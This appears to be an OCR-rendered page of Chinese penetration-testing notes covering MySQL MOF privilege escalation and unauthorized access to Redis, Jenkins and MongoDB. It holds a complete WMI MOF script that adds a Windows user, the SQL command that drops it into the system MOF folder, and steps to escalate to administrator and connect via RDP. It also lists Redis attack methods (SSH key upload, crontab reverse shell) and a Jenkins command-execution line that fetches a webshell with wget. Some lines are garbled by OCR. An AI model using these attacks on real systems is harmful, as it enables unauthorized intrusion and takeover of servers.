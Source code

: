 ** MySQL mof 提权  **<br />1、脚本准备
```bash
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP2";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 5";
QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consPCSV2";
ScriptingEngine = "JScript";
ScriptText =
"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")";
};instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```
 其中的第 18 ⾏的命令，上传前请⾃⼰更改。  <br /> 2、执⾏ load_file 及 into dumpfile 把⽂件导出到正确的位置即可。  
```bash
select load file('c:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mov'
```
 执⾏成功后，即可添加⼀个普通⽤户，然后你可以更改命令，再上传导出执⾏把⽤户提升到管理员权限，然后 3389 连 接之就 ok 了。  

** L、特殊漏洞  **
```bash
1、Struts2-045
2、Redis 未授权
```
 产⽣原因  
```bash
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公⽹上，如果在没有开启认证的情况下，可以导致任意⽤户在可以访问⽬标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis的情况下可以利⽤ Redis 的相关⽅法，可以成功在 Redis 服务器上写⼊公钥，进⽽可以使⽤对应私钥直接登录⽬标服务器
```
 利⽤条件和⽅法  <br />条件:
```bash
a、redis 服务以 root 账户运⾏
b、redis ⽆密码或弱密码进⾏认证
c、redis 监听在 0.0.0.0 公⽹上
```
⽅法:
```bash
a、通过 Redis 的 INFO 命令, 可以查看服务器相关的参数和敏感信息, 为攻击者的后续渗透做铺垫
b、上传 SSH 公钥获得 SSH 登录权限
c、通过 crontab 反弹 shell
d、slave 主从模式利⽤
```
**M、 修复  **
```bash
密码验证
降权运⾏
限制 ip / 修改端⼝
```
Jenkins 未授权访问   <br />MongoDB 未授权访问  <br /> 攻击者通过未授权访问进⼊脚本命令执⾏界⾯执⾏攻击指令  
```bash
println "ifconfig -a".execute().text 执⾏⼀些系统命令, 利⽤ wget 下载 webshell
```
 开启 MongoDB 服务时不添加任何参数时, 默认是没有权限验证的, ⽽且可以远程访问数据库，登录的⽤户可以通过默认 端⼝⽆需密码对数据库进⾏增、删、改、查等任意⾼危操作。  <br /> 防护  
```bash
```